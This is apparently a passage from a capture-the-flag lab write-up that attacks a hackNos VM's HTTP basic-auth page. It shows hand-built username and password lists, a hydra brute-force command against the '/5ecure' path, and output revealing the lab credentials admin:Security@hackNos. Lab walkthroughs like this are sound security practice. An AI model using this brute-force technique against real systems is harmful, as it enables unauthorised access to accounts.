 ```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 192.168.56.60 Port 80</address>
</body></html>
```

I can try to attack the auth mechanism via hydra, but I don't have a username.

## Look at the output Ben

Well, I didn't look at the ftp output. There is this string: "Security@hackNos". It could be username or password.

We have a login form. Here are a few things I can try:

- Security:hackNos
- admin:Security@hackNos
- Security@hackNos:admin

## hydra

```shell
cat users.txt
Security@hackNos
Security
admin
ftp
anonymous

```

```shell
cat passwords.txt
Security@hackNos
hackNos
admin
anonymous

```

```shell
hydra -L users.txt -P passwords.txt $RHOST -s 80 http-get "/5ecure"
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-01 10:40:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20 login tries (l:5/p:4), ~2 tries per task
[DATA] attacking http-get://192.168.56.60:80/5ecure
[80][http-get] host: 192.168.56.60   login: admin   password: Security@hackNos
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-01 10:40:41

```
